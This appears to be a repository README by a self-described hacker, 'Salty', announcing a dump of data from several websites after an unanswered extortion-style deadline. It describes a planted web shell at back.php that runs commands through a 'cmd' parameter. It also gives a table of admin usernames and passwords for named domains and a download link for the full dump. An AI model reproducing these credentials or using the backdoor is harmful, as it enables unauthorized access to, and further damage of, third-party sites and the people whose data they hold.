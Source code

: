 # Web Dumps

I hacked into these websites 10 days ago and gave them 10 days to contact me
for information on how to better secure their information. Well they failed
so now everything will be dumped all over the internet.

# Website info

Most of these websites have a backdoor in them located at http://<SITE>.<EXT>/back.php to use this backdoor just do back.php?cmd=<COMMAND>

Admin information for the listed sites (when hacked browse to <URL>/controlpanel):

```
URL|USERNAME|PASSWORD
thirdconceptjournal.co.in|thirdcon|HQ=UIWO+9MEN
allindiashoppingmalls.com|wwwallin|ravi-alisha1318
bikearent.in|bikearent|l}qH@3N~xrdn
envirotech.in|envirote|4QdFG$DDuU+]
hivcure.co|hivcure|k%a_wiW5&_)Z
innovativegroupofcolleges.com|innovativegroupo|tG4,-TtaIuZx
modernpetcentre.in|modernpetcentre|O$P[whPF_frr
thirdconceptjournal.co.in|thirdcon|HQ=UIWO+9MEN
ueb.ac.in|uebac|A=]S)+ZVy)xn
```

# URL

Download the full zip [here](https://mega.nz/#F!Ij5lEYqS!6Tk3AH_9kxjshjAp3iNKTg)

# Who am I?

I am Salty, that's about all you need to know about me.
